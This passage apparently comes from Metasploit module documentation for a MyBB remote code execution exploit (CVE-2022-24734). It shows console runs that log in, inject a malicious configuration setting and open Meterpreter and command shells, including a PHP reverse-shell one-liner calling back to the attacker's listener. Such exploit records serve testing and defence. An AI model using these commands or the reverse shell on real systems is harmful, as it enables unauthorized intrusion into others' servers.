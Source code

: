 ```
Computer    : DC02
OS          : Windows NT DC02 10.0 build 17763 (Windows Server 2019) AMD64
Meterpreter : php/windows
```

### Linux (target 0 - PHP)
```
msf exploit(multi/http/mybb_rce_cve_2022_24734) > run Verbose=true LHOST=192.168.0.48 RHOSTS=127.0.0.1 RPORT=8080 USERNAME=msfuser PASSWORD=123456
[*] Started reverse TCP handler on 192.168.0.48:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] MyBB forum found running at /
[!] The service is running, but could not be validated.
[*] Attempting login
[+] Login successful!
[*] Adding a malicious settings
[*] Adding a crafted configuration setting entry with the payload
[+] Payload successfully sent
[*] Triggering the payload execution
[*] Sending stage (39860 bytes) to 192.168.0.48
[*] Meterpreter session 2 opened (192.168.0.48:4444 -> 192.168.0.48:50029) at 2022-05-23 15:41:58 +0200
[*] Removing the configuration setting
[*] Grab the delete parameters
[*] Send the delete request
[*] Shell incoming...

meterpreter > sysinfo
Computer    : e087259940a8
OS          : Linux e087259940a8 5.10.76-linuxkit #1 SMP Mon Nov 8 10:21:19 UTC 2021 x86_64
Meterpreter : php/linux
```

### Linux (target 1 - Unix (In-Memory))
```
msf exploit(multi/http/mybb_rce_cve_2022_24734) > set target 1
target => 1
msf exploit(multi/http/mybb_rce_cve_2022_24734) > run Verbose=true LHOST=192.168.0.48 RHOSTS=127.0.0.1 RPORT=8080 USERNAME=msfuser PASSWORD=123456
[+] php -r '$ctxt=stream_context_create(["ssl"=>["verify_peer"=>false,"verify_peer_name"=>false]]);while($s=@stream_socket_client("ssl://192.168.0.48:4444",$erno,$erstr,30,STREAM_CLIENT_CONNECT,$ctxt)){while($l=fgets($s)){exec($l,$o);$o=implode("\n",$o);$o.="\n";fputs($s,$o);}}'&
[*] Started reverse SSL handler on 192.168.0.48:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] MyBB forum found running at /
[!] The service is running, but could not be validated.
[*] Attempting login
[+] Login successful!
[*] Adding a malicious settings
[*] Adding a crafted configuration setting entry with the payload
[+] Payload successfully sent
[*] Triggering the payload execution
[*] Removing the configuration setting
[*] Grab the delete parameters
[*] Send the delete request
[*] Shell incoming...
[*] Command shell session 3 opened (192.168.0.48:4444 -> 192.168.0.48:50151) at 2022-05-23 15:42:58 +0200


ls
backups
inc
```